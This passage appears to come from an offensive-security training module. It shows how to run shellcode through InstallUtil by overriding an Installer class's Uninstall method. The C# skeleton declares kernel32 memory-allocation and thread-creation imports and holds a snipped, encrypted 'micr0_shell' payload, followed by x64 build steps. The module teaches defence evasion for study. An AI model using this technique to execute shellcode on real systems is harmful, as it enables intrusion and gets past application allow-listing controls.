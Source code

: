 The class `NotMalware_IU` has an empty `Main` method. In this case, the second class `A` (named arbitrarily) which extends the `Installer` class is the one which matters. In that class, we will override the `Uninstall` method, so that when we tell `InstallUtil` to uninstall our compiled program, it will execute whatever code we put inside this method.

Let's modify this project to execute our `micr0_shell` payload from the `Dynamic Analysis` section. The `DllImport` statements need to be added to the top of the `A` class:

```csharp
<SNIP>
public class A : System.Configuration.Install.Installer
{
    [DllImport("kernel32")]
    private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

    [DllImport("kernel32")]
    private static extern bool VirtualProtect(IntPtr lpAddress, uint dwSize, UInt32 flNewProtect, out UInt32 lpflOldProtect);

    [DllImport("kernel32")]
    private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, IntPtr lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

    [DllImport("kernel32")]
    private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    public override void Uninstall(System.Collections.IDictionary savedState)
    {
        <SNIP>

```

And then the shellcode decryption/injection logic needs to replace the comment which says `"CODE EXECUTION"` inside the `Uninstall` method:

```csharp
    <SNIP>
    public override void Uninstall(System.Collections.IDictionary savedState)
    {
        // Shellcode (micr0_shell)
        string bufEnc = "<SNIP>";

        // Decrypt shellcode
        <SNIP>
    }
}

```

Since the `micr0_shell` payload we are using is 64-bit, we need to modify the compilation options. At the top of the `Visual Studio` window, where it says `Debug, Any CPU`, switch `Debug` to `Release`. Next, click on `Any CPU` and select `Configuration Manager...`. Inside the `Configuration Manager` window, click `Any CPU`, select `<New...>`, click `ARM64` and select `x64`. Finally, click `OK` and then `Close`.
